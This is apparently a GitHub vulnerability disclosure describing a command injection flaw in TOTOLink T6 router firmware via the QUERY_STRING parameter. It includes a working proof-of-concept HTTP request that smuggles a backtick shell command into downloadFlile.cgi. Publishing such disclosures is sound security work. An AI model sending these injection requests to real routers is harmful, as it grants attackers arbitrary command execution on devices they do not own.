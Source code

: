 # TOTOLink T6 V5.9c.4085_B20190428 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as T6 V5.9c.4085_B20190428
- **Firmware download address:**https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html



## Description

### 1.Product Information:

TOTOLink T6 V5.9c.4085_B20190428 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220213001350971.png)



### 2. Vulnerability details

TOTOLink T6 V5.9c.4085_B20190428 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)